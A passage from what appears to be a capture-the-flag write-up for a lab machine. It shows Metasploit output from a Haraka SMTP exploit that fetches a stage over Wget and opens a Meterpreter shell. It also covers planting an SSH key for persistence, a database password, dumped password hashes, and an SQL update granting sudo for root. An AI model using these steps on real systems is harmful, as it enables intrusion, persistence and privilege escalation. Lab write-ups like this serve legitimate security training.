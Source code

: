 ```sh
msf exploit(linux/smtp/haraka) > run

[*] Started reverse TCP handler on 10.10.14.8:4444 
[*] Exploiting...
[*] Using URL: http://10.10.14.8:8080/MpEmu66
[*] Sending mail to target server...
[*] Client 10.10.10.113 (Wget/1.18 (linux-gnu)) requested /MpEmu66
[*] Sending payload to 10.10.10.113 (Wget/1.18 (linux-gnu))
[*] Sending stage (816260 bytes) to 10.10.10.113
[*] Meterpreter session 2 opened (10.10.14.8:4444 -> 10.10.10.113:54886) at 2018-11-14 14:26:55 +0100


[+] Triggered bug in target server (plugin timeout)
[*] Command Stager progress - 100.00% done (110/110 bytes)
[*] Server stopped.

meterpreter > 
meterpreter > 
meterpreter > shell
Process 5234 created.
Channel 1 created.
id
uid=1000(penelope) gid=1000(penelope) groups=1000(penelope)
```

Grab the flag then!

```sh
cd /home/penelope
cat user.txt
ac899bd46f7b014a369fbb60e53329bf
```

As you are in there be sure to paste your ssh public key to `.ssh/authorized_keys` to simple ssh in as user penelope.
Will be an easy checkpoint as long as the box is not reset.

# Priv Esc - Get root.txt

So you will find credentials to enter the postgresql database in the action.php in the web directory. You are opting for the unix database.
What we are doing now is:

- Add User at the Admin frontend we stole the cookie for
- Login to database and alter the entry to be in the sudo gid = 27
- Login via ssh to the box as the altered user
- sudo bash
- be root

After you added the user go and alter the database entry

```sh
penelope@redcross:/tmp/pwntools$ psql -d unix -h 127.0.0.1 -U unixusrmgr
Password for user unixusrmgr:dheu%7wjx8B& 

unix=> select * from passwd_table;
 username |               passwd               | uid  | gid  | gecos |    homedir     |   shell   
----------|------------------------------------|------|------|-------|----------------|-----------
 tricia   | $1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp. | 2018 | 1001 |       | /var/jail/home | /bin/bash
 c1sc0    | $1$O7MNs3KY$slQcyaB8y1HR3mWyr7aLc/ | 2020 | 1001 |       | /var/jail/home | /bin/bash
 c1sc0adm | $1$JGJaLIf1$dQAZgTnrJz6.bDAasCZA8. | 2021 | 1001 |       | /var/jail/home | /bin/bash
(3 rows)

unix=> UPDATE passwd_table SET gid = '27' WHERE username = 'c1sc0adm';
UPDATE 1
```
